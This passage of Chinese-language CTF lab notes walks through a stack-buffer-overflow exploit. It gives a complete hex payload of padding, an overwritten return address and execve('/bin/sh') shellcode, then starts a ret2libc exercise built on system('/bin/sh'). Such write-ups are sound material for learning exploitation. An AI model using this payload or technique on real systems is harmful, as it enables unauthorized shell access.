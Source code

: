 ![image-20240419184838559](${images}/image-20240419184838559.png)修改数据即可

CTRL+E

ASCII先输入

记得取消Keep size

```
aaaaaaaaaaaaaaaaaaaaaaaa
```

然后输入stack_addr:0x7fffbbc7aac0+0x20后的结果0x7fffbbc7aae0

```
e0 aa c7 bb ff 7f 00 00
```

再输入shellcode的内容

hex栏处所有内容如此：

```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 e0 aa c7 bb ff 7f 00 00 6a 68 48 b8 2f 62 69 6e 2f 2f 2f 73 50 48 89 e7 68 72 69 01 01 81 34 24 01 01 01 01 31 f6 56 6a 08 5e 48 01 e6 56 48 89 e6 31 d2 6a 3b 58 0f 05 0a
```

即可

![image-20240419190901944](${images}/image-20240419190901944.png)

### 1、（4）ret2libc

![image-20240313182943008](${images}/image-20240313182943008.png)

> 没有PIE



main函数：

![image-20240313183734172](${images}/image-20240313183734172.png)

含有system函数的secure函数：

![image-20240313183755768](${images}/image-20240313183755768.png)

这里的要点因为没有sh

因此需要使用system函数构造system("/bin/sh")

![image-20240313184714674](${images}/image-20240313184714674.png)



1. s的首地址和ebp的差值(需要溢出)
2. system@plt的具体数值(借用system函数)
3. 字符串"/bin/sh"所在地址(构建后门)
